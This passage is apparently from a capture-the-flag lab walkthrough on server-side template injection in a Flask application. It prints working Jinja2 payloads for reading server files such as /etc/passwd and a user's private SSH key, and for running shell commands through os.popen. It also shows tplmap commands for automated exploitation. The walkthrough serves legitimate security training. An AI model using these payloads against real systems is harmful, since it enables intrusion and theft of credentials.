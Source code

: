 Fortunately, we don't have to do much recon as we already know this is vulnerable to SSTI, lets try injecting some basic template code

![](https://imgur.com/CdzYeHS.png)  

Boom! That's template injection. We can use the wonderful repository [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection), to find some payloads for flask's template engine. The repo says we can use the code 

`{{ ''.__class__.__mro__[2].__subclasses__()[40]()(<file>).read()}}` to read files on the server. Effectively all that payload does is load the file object in python, from there we can use basic file operations. Let's try to read /etc/passwd using this method 

![](https://imgur.com/a7RphqV.png)  

We have LFI! Unfortunately(or fortunately depending on how you view it), that is not the extent of this vulnerability. The same repo, also includes a payload for remote code execution. 

We can use the code `{{config.__class__.__init__.__globals__['os'].popen(<command>).read()}}` to execute commands on the server. All that payload does is import the os module, and run a command using the popen method.

![](https://imgur.com/XTDPJSX.png)  

From there, an attacker has already won, they can use this ability to gain a shell on the server.


1. How would a hacker(you :) ) cat out /etc/passwd on the server(using cat with the rce payload)

*ANSWER:* ``{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}`

2. What about reading in the contents of the user test's private ssh key.(use the read file one not the rce one)

*ANSWER:* `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/home/test/.ssh/id_rsa').read() }}`

### TASK 5: Section 1 - SSTI: Automatic Exploitation of SSTI


Fortunately, we don't have to go searching for payloads to see how we can use SSTI to our advantage, because there is a tool known as Tplmap that does that for us! The tool can be found [here](https://github.com/epinna/tplmap). 

Note: use python2 to install the requirements. python2 -m pip

The basic syntax for tplmap is different depending on whether you're using get or post

GET

`tplmap -u <url>/?<vulnparam>`

POST

`tplmap -u <url> -d '<vulnparam>'`

Since our code operates via a form, the post syntax will be used.

![](https://imgur.com/416wOwX.png)
